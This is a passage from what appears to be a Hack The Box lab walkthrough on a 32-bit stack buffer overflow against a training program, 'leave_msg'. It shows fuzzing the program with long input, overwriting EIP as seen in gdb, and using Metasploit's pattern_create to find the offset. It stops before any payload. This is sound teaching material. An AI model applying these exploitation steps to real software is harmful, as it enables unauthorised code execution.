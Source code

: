 We ran the program with a large string length of 2000 characters and it did not crash. Lets try with a larger input:

```sh
./leave_msg $(python -c print'"A" * 3000')
Segmentation fault (core dumped)
```

Nice, the program crashed. Lets take a look at the registers with gdb
```sh
htb-student@nixbof32skills:~$ gdb leave_msg
<SNIP>
(gdb) run $(python -c print'"A" * 3000')
Starting program: /home/student/leave_msg $(python -c print'"A" * 3000')

Program received signal SIGSEGV, Segmentation fault.
0x41414141 in ?? ()
(gdb) info registers
eax            0x0	0
ecx            0x15	21
edx            0x56558158	1448444248
ebx            0x41414141	1094795585
esp            0xffffc8f0	0xffffc8f0
ebp            0x41414141	0x41414141
esi            0xffffc930	-14032
edi            0x0	0
eip            0x41414141	0x41414141
eflags         0x10282	[ SF IF RF ]
cs             0x23	35
ss             0x2b	43
ds             0x2b	43
es             0x2b	43
fs             0x0	0
gs             0x63	99
```

### Identifying how Many Bytes are Needed to Overwrite EIP
We can see that eip, the return address, got overwritten with `0x41414141` which is just our input of upper case As in hex. We now need to figure out the offset at which we can start writing the eip. To do so we can use msfconsole's `pattern_create` built-in tool, which generates a random non-repeating string.

```sh
/usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 3000
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9A<SNIP>u1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9
```

Lets rerun the program with the generated string:
```sh
(gdb) run Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9A<SNIP>u1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9
Starting program: /home/student/leave_msg Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9A<SNIP>u1Du2Du3Du4Du5Du6Du7Du8Du9Dv0Dv1Dv2Dv3Dv4Dv5Dv6Dv7Dv8Dv9

Program received signal SIGSEGV, Segmentation fault.
0x37714336 in ?? ()
```
